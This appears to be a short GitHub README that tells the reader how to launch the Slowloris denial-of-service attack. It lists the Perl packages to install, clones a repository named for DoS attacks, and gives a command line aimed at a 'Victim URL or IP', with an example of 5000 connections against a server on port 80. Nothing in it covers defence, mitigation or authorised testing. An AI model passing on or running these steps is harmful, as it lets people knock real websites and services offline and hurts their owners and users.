 **How use Slowloris Attack**

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/Slowloris-DOS-Attack.git
3) Choose the directory where the file is downloaded
   # $home/ cd slowloris
4) Run application
   # $home/slowlores/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example:
   # $home/slowlores/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```
Done
